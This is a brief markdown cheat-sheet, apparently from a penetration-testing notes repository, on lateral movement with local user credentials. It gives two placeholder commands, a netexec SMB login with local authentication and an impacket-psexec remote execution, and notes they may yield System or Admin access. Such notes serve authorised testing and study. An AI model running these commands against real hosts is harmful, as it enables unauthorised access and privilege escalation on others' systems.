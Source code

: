 # Local User Lateral Movement

## Tools: CrackMapExec/Netexec , impacket (all modules without domain/)

 - netexec smb -u USER -p PASS IP --local-auth

 - impacket-psexec USER:PASSWORD@IP (Example)

### Both of these techniques may grant System/Admin access

